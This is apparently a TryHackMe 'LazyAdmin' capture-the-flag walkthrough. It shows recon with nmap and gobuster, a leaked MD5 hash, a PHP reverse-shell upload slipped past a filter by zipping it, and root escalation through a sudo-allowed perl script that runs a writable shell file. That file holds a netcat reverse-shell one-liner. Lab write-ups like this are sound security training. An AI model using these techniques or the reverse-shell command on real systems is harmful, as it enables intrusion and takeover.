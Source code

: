 # LazyAdmin

```
export IP=10.10.120.19
```

## Task 1

1. What is the user flag?

  Basic recon to see what is open. Looks like we just have a webpage and SSH:

  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/LazyAdmin$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-21 22:10 MDT
  Nmap scan report for 10.10.120.19
  Host is up (0.14s latency).
  Not shown: 998 closed ports
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
  |   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
  |_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Apache2 Ubuntu Default Page: It works
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 38.30 seconds
  ```

  Seeing what is open on the webpage, we first find that there is a `/content` directory:

  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/LazyAdmin$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.120.19
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Extensions:     html,js,php,txt
  [+] Timeout:        10s
  ===============================================================
  2020/05/21 22:10:32 Starting gobuster
  ===============================================================
  /index.html (Status: 200)
  /content (Status: 301)
  ```

  Now running gobuster on the `/content` directory, we find even more directories to explore:

  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/LazyAdmin$ gobuster dir -u http://$IP/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.120.19/content/
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Extensions:     php,txt,html,js
  [+] Timeout:        10s
  ===============================================================
  2020/05/21 22:40:43 Starting gobuster
  ===============================================================
  /index.php (Status: 200)
  /images (Status: 301)
  /license.txt (Status: 200)
  /js (Status: 301)
  /changelog.txt (Status: 200)
  /inc (Status: 301)
  /as (Status: 301)
  /_themes (Status: 301)
  /attachment (Status: 301)
  ```

  In the `/content/inc/` dirctory is another directory with MySQL backups that we can access and download. Downloading the file and looking through it, we find the MD5 hash of the manager:
  MySQL backup:
  ```
  \\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
  ```

  Cool, so we have a password but nowhere to use it yet. Continuing to explore the findings from gobuster, the `/content/as` endpoint prompts for a username and password, where we log in as manager.

  We can upload a PHP reverse shell in the `media content` section of the web app. After trying to upload the PHP file standalone seems to fail, but there is an option to upload as a zip file and have the website unzip upon upload:

  ![loaded_zip](https://user-images.githubusercontent.com/32188816/82636987-12863480-9bc1-11ea-8600-565c95cd6e3f.png)

  Ziping the file then uploading seems to bypass the WAF, and the website renamed our PHP file with a hash:

  ![uploaded_unzipped_revshell](https://user-images.githubusercontent.com/32188816/82636992-144ff800-9bc1-11ea-9764-2206ac8a9c3a.png)

  Setting up our listener catches the shell, and we find the user flag in `/home/itguy/user.txt`:

  ```bash
  $ cat /home/itguy/user.txt
  THM{<REDACTED>}
  ```

2. What is the root flag?

  No onto the root flag. First let us check to see what commands we can run with elevated privileges:

  ```bash
  $ sudo -l
  Matching Defaults entries for www-data on THM-Chal:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User www-data may run the following commands on THM-Chal:
      (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
  ```

  Lets check out exactly what this perl file does:

  ```bash
  $ cat /home/itguy/backup.pl
  #!/usr/bin/perl

  system("sh", "/etc/copy.sh");
  ```

  Simple enough, it just spawns a shell and executes the `/etc/copy.sh` script. So what does the `/etc/copy.sh` script do?

  ```bash
  $ cat /etc/copy.sh
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
  $ ls -alh /etc/copy.sh
  -rw-r--rwx 1 root root 81 May 22 08:49 /etc/copy.sh
  ```

  So we have write access to `/etc/copy.sh` so we can blank that file and put our payload in there to checkout root's home directory and get the root flag:

  ```bash
  $ > /etc/copy.sh
  $ echo 'ls /root' >> /etc/copy.sh
  $ cat /etc/copy.sh
  ls /root
  $ sudo /usr/bin/perl /home/itguy/backup.pl
  root.txt
  $ > /etc/copy.sh
  $ echo "cat /root/root.txt" >> /etc/copy.sh
  $ sudo /usr/bin/perl /home/itguy/backup.pl
  THM{<REDACTED>}
  ```
